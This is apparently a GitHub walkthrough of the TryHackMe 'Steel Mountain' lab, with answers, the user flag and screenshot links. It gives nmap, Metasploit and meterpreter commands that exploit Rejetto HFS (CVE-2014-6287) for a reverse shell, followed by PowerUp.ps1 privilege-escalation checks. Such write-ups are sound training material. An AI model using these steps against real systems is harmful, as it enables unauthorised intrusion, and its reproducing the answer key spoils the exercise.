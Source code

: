 # Steel Moutain Wlakthrough
### Link
- https://tryhackme.com/room/steelmountain
------------------------
### Task 1 : Introduction
- Who is the employee of the month?
    - Check the source code of the web page
    - Picture: [Steel_Moutain_1.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_1.png)
    - **Answer** : Bill Harper
------------------------
### Task 2 : Initial Access
- Scan the machine with nmap. What is the other port running a web server on?
    - sudo nmap -sC -sV -oN ./nmap_steelmountain_result 10.10.117.67
    - Picture:<br>[Steel_Moutain_2.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_2.png) <br>[Steel_Moutain_3.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_3.png)
    - **Answer** : 8080
- Take a look at the other web server. What file server is running?
    - From nmap scan, we know the port 8080 is used for another file server
        - Connect to [IP]:8080
        - Under Server Information, you have a link "HttpFileServer 2.3"
        - Click on this link and you are redirected to http://www.rejetto.com/hfs/
        - Picture: [Steel_Moutain_4.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_4.png)
        - **Answer**  : rejetto http file server
- What is the CVE number to exploit this file server?
    - Visit https://www.exploit-db.com/search
    - Search exploit for rejetto http file server 2.3
    - Picture:<br>[Steel_Moutain_5.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_5.png)<br>[Steel_Moutain_6.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_6.png)
    - **Answer** : 2014-6287
- Use Metasploit to get an initial shell. What is the user flag?
    - Start metasploit
        msfconsole
    - find the exploit
        search exploit rejetto
        Picture: [Steel_Moutain_7.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_7.png)
    - Select the exploit
        use [payload number]
        Picture: [Steel_Moutain_8.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_8.png)
    - Check the options
        options
        Picture: [Steel_Moutain_9.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_9.png)
    - Indicate the remote hosts ip and port (This server run on port 8080)
        set RHOSTS [IP]
        set RPORT [port]
        Picture: [Steel_Moutain_10.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_10.png)
    - Chenge the Local IP with your IP
        set LHOST [IP]
    - Execute
        run
        Picture: [Steel_Moutain_11.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_11.png)
    - Remeber, the machine is a Windows machine.Not all  Linux command work ^_^
    - Move to C:\Users\bill\Desktop
    - Open user.txt
    Picture: [Steel_Moutain_12.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_12.png)
    - **Answer** : ??b04763b6fcf51fcd7c13abc7db4fd365
------------------------
### Task 3 - Privilege escalation
- download the script Link: https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
- Upload the script through meterpreter
    upload [path]/PowerUp.ps1
    - Picture: [Steel_Moutain_13.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_13.png)
- Load powershell
    load powershell
    - Picture: [Steel_Moutain_14.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_13.png)
- Access powershell
    powershell_shell
    - Picture: [Steel_Moutain_15.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_15.png)
- Execute the powershell script
    . .\PowerUp.ps1  
- Perform a check
    Invoke-AllChecks
    - Picture: [Steel_Moutain_16.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_16.png)
- Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an unquoted service path vulnerability?
    - Picture: [Steel_Moutain_17.png](https://github.com/LNB283/THM/blob/main/EASY/Steel%20Mountain/Pictures/Steel_Mountain_16.png)
    - **Answer** : AdvancedSystemCareService9